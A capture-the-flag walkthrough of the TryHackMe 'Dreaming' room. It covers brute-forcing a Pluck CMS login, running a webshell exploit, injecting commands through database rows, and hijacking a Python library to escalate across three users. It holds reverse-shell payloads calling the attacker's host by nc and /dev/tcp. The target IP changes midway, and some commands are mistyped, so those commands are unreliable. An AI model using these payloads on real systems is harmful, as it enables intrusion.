## Room information

**Room Name:** Dreaming

**Objective:** Solve the room and collect all the 3 flag in the room.

**Link:** https://tryhackme.com/room/dreaming

---

## Reconnaissance

Okey Lets start by Scanning the IP using `nmap`.

**Target IP:** 10.112.135.7

```bash
nmap -p- -sV --min-rate 5000 10.112.135.7
```

#### Scan Result: Two services running,

1. Port-22 (SSH)
2. Port-80 (HTTP)

The web server is running on port 80, let's check what's behind it. I opened the IP in the browser and got a login page.

Let's also run `ffuf` to see if there are any hidden directories.

```bash
ffuf -u http://10.112.135.7/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

#### FFuf Result:

1. /app

Bingo! found the Pluck CMS directory, the login page is at `/app/pluck-4.7.13/login.php`.

The page is running **Pluck CMS 4.7.13**, let's try to brute force the admin panel using `hydra`.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.112.135.7 http-post-form "/app/pluck-4.7.13/login.php:password=^pAss^:F=Password incorrect." -V -t 50
```



**hydra** found the password `password`, let's log in to the admin panel.



Now we are inside the admin panel of the Pluck CMS.

---

## Gaining Access

While looking for a way to get a shell, I found an exploit on exploit-db for this exact version of Pluck.



Let's grab the exploit and run it, it needs the target IP, the port, the admin password and the path of the CMS.

```bash
python3 49909.py 10.114.185.229 80 password /app/pluck-4.7.13
```

```
Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.114.185.229:80/app/pluck-4.7.13/files/shell.phar
```

The exploit uploaded a webshell to the `/files` directory, let's check the manage files page.



Now let's open the uploaded shell in the browser.



Got an interactive webshell as `p0wny@shell`, now let's start enumerating the machine.

---

## Lucien Flag

Let's see what files are owned by the `lucien` user.

```bash
find / -type f -user lucien 2>/dev/null
```



There is a file `/opt/test.py` owned by `lucien`, let's read it.

In the `test.py` file I found a password `HeyLucien#@1999!`, let's use it to switch to the `lucien` user.

```bash
su lucien
```



found the lucien flag.

---

## Death Flag

Now let's look around, there is a `death` user with a `getDreams.py` script in his home directory.



`sudo su` is not allowed, but let's check what sudo commands lucien can run.

```bash
sudo -l
```

lucien can run `/home/death/getDreams.py` as the `death` user without a password, this is going to be useful.

I also found some MySQL credentials in lucien's history files, let's connect to the database.

```bash
mysql -u lucien -p lucien42DBPASSwORD
```



There is a `library` database, let's take a look at the `dreams` table.

```bash
USE library
show tables;
select * from dreams;
```



The table contains some dreams, let's insert a new row with a command injection to read the death flag.

```bash
insert into dreams (dreamer, dream) values("dfaults", ';cat /home/death/death_flag.txt');
```



Now let's run the `getDreams.py` script as the `death` user, it will execute the command inside the dream field.

```bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```



Found the death flag.

Now let's get a shell as `death`. I inserted another row into the `dreams` table with a reverse shell payload.

```bash
insert into dreams (dreamer, dream) values('NoBody', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.134.64 4444 >/tmp/f)');
```



Now let's run `getDreams.py` again and listen with `nc` on port 4444 to catch the reverse shell.

```bash
nc -lvnp 4444
```

Got a reverse shell as `death`.

---

## Morpheus Flag

Now let's try to get the morpheus flag. From the death shell, I overwrote `/usr/lib/python3.8/shutil.py` with a reverse shell payload.

```bash
echo "import os;os.system(bash -c 'bash -i >& /dev/tcp/192.168.134.64/4445 0>61')" > /usr/lib/python3.8/shutil.py
```

Now when Python imports `shutil` (like when `getDreams.py` runs), the shell triggers and comes back to my kali box. Let's listen with `nc` on port 4445 and run `getDreams.py` again.

```bash
nc -lvnp 4445
```



Got a reverse shell as `morpheus`, let's read the flag.

```bash
cat morpheus_flag.txt
```



Bingo! found the morpheus flag.

---

**Room solved!** All the 3 flag have been collected.
